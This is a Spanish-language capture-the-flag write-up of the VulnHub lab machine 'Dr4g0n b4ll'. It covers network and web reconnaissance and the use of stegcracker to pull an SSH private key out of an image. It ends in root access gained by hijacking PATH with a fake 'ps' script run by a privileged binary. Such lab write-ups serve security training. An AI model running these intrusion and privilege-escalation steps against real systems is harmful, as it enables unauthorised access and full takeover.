 ```yaml
---
layout: post
title: "Dr4g0n b4ll"
date: 2024-05-22 13:25:23
category: vulnhub
vm: vulnhub
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Dr4g0n b4ll </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/host.png){:.margin}

**1\.** Pillamos la ip objetivo.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/arp.png){:.margin}

**2\.** Escaneo puertos y tambien servicios.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/nmap.png){:.margin}

**3\.** Hecho un ojo a la pagina apache.

`http://192.168.1.8:80`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos en la web.

`gobuster dir -u http://192.168.1.8/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,txt`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/gobuster.png){:.margin}

**5\.** Este archivo me da un texto.

`http://192.168.1.8/robots.txt`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/robots.png){:.margin}

**6\.** Lo pego en [Cyberchef](https://gchq.github.io/CyberChef/)  para decodificar.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/cybercheffind.png){:.margin}

**7\.** Vuelvo a la pagina principal y analizo el codigo fuente.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/ctrlu.png){:.margin}

**8\.** Por muy debajo encuentro una linea comentada, lo llevo a Cyberchef.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/cyberchefdir.png){:.margin}

**9\.** Me dirigo a esa ruta en la web.

`http://192.168.1.8/DRAGON BALL/`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/dbindex.png){:.margin}

**10\.** En el archivo al parecer tenemos rutas.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/secret.png){:.margin}

**11\.** Ya dentro de la carpeta vulnhub, tenemos dos archivos.

_\- En el login pillamos un potencial usuario_

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/login.png){:.margin}

**12\.** Ahora analizando la imagen.

_12.1- Descago la imagen_

`wget http://192.168.1.8/DRAGON%20BALL/Vulnhub/aj.jpg`

_12.2- Con steghide extraigo archivos ocultos, pero me pide una clave_

`steghide --extract -sf aj.jpg`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/steghidefail.png){:.margin}

_12.3- Crackeo la contraseña, si es exitoso lo extrae automaticamente_

`stegcracker aj.jpg -q`

`ls`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/stegcracker.png){:.margin}

_12.4- Tenemos un clave privada, lo renombro y le doy permisos_

`file aj.jpg.out`

`mv aj.jpg.out id_rsa`

`chmod 600 id_rsa`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/idrsa.png){:.margin}

**13\.** Accedo por ssh como usuario xmen.

`ssh -i id_rsa xmen@192.168.1.8`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/ssh.png){:.margin}

**14\.** En el archivo esta nuestra flag de usuario.

_\- Dentro de la carpeta tenemos dos archivos_

`cd script`

`ls`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/scriptfiles.png){:.margin}

**15\.** Analizando los archivos.

_15.1- En el contenido de demo.c veo que ejecuta el comando ps_

`cat demo.c`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/demo.png){:.margin}

_15.2- Al ejecutar shell me resulta una copia de la salida del comando ps_

`./shell`

`ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/shell.png){:.margin}

_\- Entre las cadenas del binario shell hallo demo.c, supongo que al ejecutar shell tambien ejecuta las instrucciones de demo.c, por eso en la salida de shell tambien se ve que se ejecuto ps_

`strings shell | grep demo`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/strings.png){:.margin}

**16\.** En demo.c veo que ps no es llamado con su ruta absoluta, supongo que busca en el path.

_16.1- En principio veo la ruta relativa de ps_

`which ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/which.png){:.margin}

_16.2- Creo mi propio 'binario' ps y lo agrego al path_

`cd /tmp`

`echo "/bin/bash" > ps`

`chmod +x ps`

`export PATH=/tmp:$PATH`

`echo $PATH`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/newps.png){:.margin}

_16.3- Compruebo la nueva ruta de ps_

`which ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/whichnew.png){:.margin}

**17\.** Por ultimo escalo privilegios.

`cd /home/xmen/script`

`./shell`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>
